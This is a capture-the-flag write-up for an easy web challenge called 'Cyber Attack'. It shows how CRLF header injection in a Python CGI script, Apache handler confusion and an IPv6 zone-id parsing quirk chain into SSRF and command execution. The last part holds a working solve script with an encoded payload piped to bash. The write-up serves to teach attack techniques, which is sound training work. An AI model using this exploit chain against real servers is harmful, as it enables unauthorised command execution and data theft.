

 <font size='10'>Cyber Attack</font>

2<sup>nd</sup> February 2025

Prepared By: `Souvlakia`

Challenge Author(s): `Souvlakia`

Difficulty: <font color='orange'>Easy</font>

<br><br>


# Synopsis

- The challenge involves a code injection vulnerability, through an SSRF caused by a handler confusion that happens in non-latest versions of Apache.

## Description 

- Welcome, Brave Hero of Eldoria. You’ve entered a domain controlled by the forces of Malakar, the Dark Ruler of Eldoria. This is no place for the faint of heart.
Proceed with caution: The systems here are heavily guarded, and one misstep could alert Malakar’s sentinels. But if you’re brave—or foolish—enough to exploit these defenses, you might just find a way to weaken his hold on this world.
Choose your path carefully: Your actions here could bring hope to Eldoria… or doom us all.
The shadows are watching.
Make your move.

## Skills Required

- Basic understanding of Apache's Architecture
- Basic understanding of CRLF Header Injection
- Basic Url Encoding knowledge

## Skills Learned 

- Performing Handler Confusion Attacks on Apache.
- Perfoming SSRF attacks and double URL encoding.
- Python's `ipaddress.ip_address` accepts IPv6 addresses with zone_ids.

# Enumeration 

## Analyzing the source code

- Opening the source code, we can see that the challenge is running an Apache server with an `index.php` file and a `cgi-bin` directory. The cgi files are written in Python and are used to interact with the server.
- Index page is a simple form that takes a Name and a Domain/IP address as input.

- Filling out the form we see that the `Attack an IP` button is disabled. As it says, it is only allowed for *trusted* users.


Looking at the code of `index.php`: 
```javascript
const isLocalIP = (ip) => {
    return ip === "127.0.0.1" || ip === "::1" || ip.startsWith("192.168.");
};

const userIP = "<?php echo $_SERVER['REMOTE_ADDR']; ?>";
```
- So if it's a local IP the button is enabled.

Buttons:
- Attack a domain: Visits the `/cgi-bin/attack-domain.py`
- Attack an IP: Visits the `/cgi-bin/attack-ip.py`

Looking at the code of `attack-domain.py`:
```python
#!/usr/bin/env python3

import cgi
import os
import re

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```
- The code is simple, it checks if the target is a domain and then pings it.
  
- Looking at the code of `attack-ip.py`:
```python
...
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
...
```
- Similar to the previous code, but this time it validates if the target is an IP address by calling the `ip_address` function.


Checking the Apache configuration file:
```apache
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```
- The `attack-ip` location is only allowed for local IPs.
- The application sets the `application/x-httpd-php` type for `.php` files.


- Thoughts:
  - The parameters in the cgi scripts are not sanitized but only checked. If we could bypass either of the checks, we could exploit the system by injecting code.
  - Since there is a local only page, we try to think of a possible SSRF attack.

# Solution 

## Finding the vulnerability 

- The cgi-bin files on error print the name of the user. This can lead to a CRLF injection.
```python
print(f'Location: ../?error=Hey {name}, watch it!')
```

- The application adds a Type for the `.php` files instead of securely setting the handler. This can lead to handler confusion as explained [here](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/#🔥-3-Handler-Confusion).
- This vulnerability is now fixed for the most part in the latest versions of Apache. But we can see that the docker image is running an older version of Apache.
- This can lead to full GET SSRF attacks which gets us to the next step.
- The `ip_address` function is used to verify if the target is an IP address. As explained in [this](https://blog.slonser.info/posts/ipv6-zones/) post, we can *bypass* this by giving an IPv6 adress with a `%` sign followed by our payload.

## Exploitation 

- We begin with the handler confusion via CRLF injection. We can inject a new header to the response with the name parameter.
- Example:
```python
handler = 'server-status'

r =  get(f'{url}/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:{handler}%0d%0a%0d%0a')

print(r.text)
```
- The cgi response has a new header `Content-Type: server-status` which means the handler is now set to a prebuilt `server-status` handler.
- The response text is indeed the server status page.

- We can now perform a SSRF attack by setting the handler to `proxy:http://127.0.0.1/cgi-bin/attack-ip`.

Some issues:
- The get parameters of the `attack-ip` page need to be url encoded.
- The zone_id of the IPv6 address needs to be url encoded as well, so we double encode it.
- We cant have `/` in the zone_id.
- The proxy seems to append a `/var/www/html` to the url so we a dummy parameter catches this. 

### Getting the flag 
- The flag is located at `/flag-<random>.txt` so we can use a command to get the flag and write it to a file in the webroot.
- Solve script:
```python
from requests import get
url = 'http://localhost:1337'

def quote(s):
    return ''.join([f'%{hex(ord(c))[2:]}' for c in s])
def dquote(s):
    return quote(quote(s))

from base64 import b64encode
payload = b64encode(b'cat /flag* > /var/www/html/flag.txt').decode()

handler = f'proxy:http://127.0.0.1/cgi-bin/attack-ip?name=asfs{quote('&')}target=::1{dquote(f"%; echo \"{payload}\" | base64 -d | bash")}{quote('&')}dummy='

get(f'{url}/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:{handler}%0d%0a%0d%0a')

print(get(f'{url}/flag.txt').text)
```

